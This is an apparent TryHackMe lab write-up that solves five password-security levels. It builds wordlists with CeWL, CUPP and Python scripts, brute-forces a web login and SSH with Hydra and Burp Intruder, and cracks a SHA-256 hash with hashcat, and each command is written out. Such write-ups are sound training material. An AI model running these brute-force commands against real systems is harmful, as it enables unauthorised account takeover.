

# Writeup: TryHackMe Checkmate

## Challenge Premise

> Marco Bianchi, a systems administrator, recently deployed several internal services, including a firewall console, employee portal, social platform, and SSH access to critical infrastructure. Due to tight deadlines and operational pressure, Marco reused weak, predictable, and pattern-based passwords across multiple systems.  
>
> Your objective is to conduct a password security assessment to identify weaknesses in Marco’s authentication practices.

## Writeup

The first step of the challenge was to access the main application on port 5000 of the target machine. This accessed a hub where the rest of the challenge could continue.


### Level 1: Default Credentials

The FirewallOS Management Console was hosted on port 5001 of the target machine. The information for level 1 was the following:

> Marco deployed a firewall at firewall.thm:5001 but kept default credentials.

To attempt to crack the password, Burp Suite Intruder was used. This would automate the process more than iterating credentials manually, and build up experience using the tool for future web application testing. Passwords from `rockyou.txt` were used, revealing the password to be `12345`.

### Level 2: Employee Login Portal

The following information was provided for level 2:

> Marco built an internal Employee Login panel on jobs.thm:5002 and used common company keywords as passwords.

To begin cracking the password, the company employee panel was first used.


This contained a number of keywords. Cewl was used to scrape the page and put the output into `loginportalcewl.txt`

```bash
cewl http://10.128.171.154:5002/ -w loginportalcewl.txt
```

Burp Intruder was then used with the `loginportalcewl.txt` wordlist. As the task didn't specify a username format, it was assumed to be `marco`. `excellence` returned a 302 request, identifying the password.


### Level 3: Social Media

The following information was provided for level 3:

> Navigate to social.thm:5003 and derive Marco's password from personal info.

As no difference was specified in the username structure, it was assumed to be `marco` again. The website specified that the jobs portal would hold Marco's password, so his information was saved as a local html file called  Marco's raw employee information was stored in `profile-words.txt`.


```bash
cewl file:///root/profile.html -w /root/profile-words.txt
```

This didn't resolve, so instead the following was used to scrape potential password:

```bash
python3 -c 'from html.parser import HTMLParser; from pathlib import Path; import re; p=HTMLParser(); s=Path("/root/Downloads/profile.html").read_text(); print("\n".join(dict.fromkeys(re.findall(r"[A-Za-z0-9]+", p.unescape(re.sub(r"<[^>]*>", " ", s))))))' > /root/profile-words.txt
```

This was then cleaned to produce the following list

```md
Marco
Bianchi
marky
14021995
```

This was then used to create a candidate list using:

```bash
python3 -c 'from itertools import permutations; from pathlib import Path; w=Path("profile-words.txt").read_text().splitlines(); print("\n".join(dict.fromkeys(a+b for a,b in permutations(w,2))))' > candidates.txt
```

This list did not work either.

CUPP was used to generate more permutations.


Burp Suite proved too slow to iterate through the list, so Hydra was used instead.

```bash
hydra -l marco -P marco.txt 10.130.129.254 -s 5003 \
http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials." \
-t 32 -f -V
```

This then revealed the password to be `Bianchi2495`



### Level 4: Hash Image

> On social.thm:5003, Marco recently uploaded a new profile picture. For privacy and storage consistency, the platform automatically renames uploaded files to the SHA256 hash of the original filename and saves them in the format (SHA256).png. Your task is to identify the original filename of Marco’s uploaded profile picture. Submit only the filename to proceed.

To begin solving this level, Marco's social media page was accessed using the password learned in the previous task.


His profile picture was downloaded onto the attacker machine. The file's name was `d34a569ab7aaa54dacd715ae64953455d86b768846cd0085ef4e9e7471489b7b.png`. From the task briefing, it was known that the SHA256 hash was used. To crack the hash via a basic dictionary attack using `rockyou.txt`, the following command was run.

```bash
hashcat -m 1400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

- -m 1400 specifies the SHA-256 hashing mode.
- -a 0 specifies a basic dictionary attack.

This revealed the hash to be `d34a569ab7aaa54dacd715ae64953455d86b768846cd0085ef4e9e7471489b7b:family`.


### Level 5: Custom Wordlist Building

> Marco has revealed his password pattern on social.thm:5003, using predictable rules based on keywords and formatting. Use this information to generate a targeted wordlist and brute-force the SSH service with username marco.

From visiting Marco's social media page, his password pattern was established.

> My tip for strong passsord: I take a company keyword, capitalize it, then append the year like 2024 or any other number and an exclamation mark.

These defined the rules required to generate a custom wordlist. The company keywords were obtained from the portal in level 2, which were the following:

[innovation, excellence, security, digital, cloud, future, talent]

The `phrasegenerator.py` script was generated to produce a list of potential passwords in `phrases.txt`.

```python
"""A script to generate potential passwords according to Marco's rules."""

# The company keywords.
KEYWORDS = ["innovation", "excellence", "security",
            "digital", "cloud", "future", "talent"]
YEARS = range(1990, 2030)
OUTPUT_FILE = "phrases.txt"


def generate_phrases():
    """Return phrases in the form: CapitalizedKeyword + number + !"""
    return [
        f"{keyword.capitalize()}{number}!"
        for keyword in KEYWORDS
        for number in YEARS
    ]


if __name__ == "__main__":
    with open(OUTPUT_FILE, "w", encoding="utf-8") as output:
        output.write("\n".join(generate_phrases()))
        if KEYWORDS:
            output.write("\n")

```

Hydra then needed to be used to brute force the SSH service. This was done using the command:

```bash
hydra -l marco -P phrases.txt 10.129.165.186 ssh -t 32
```


This revealed Marco's ssh password to be `Security2024!`.
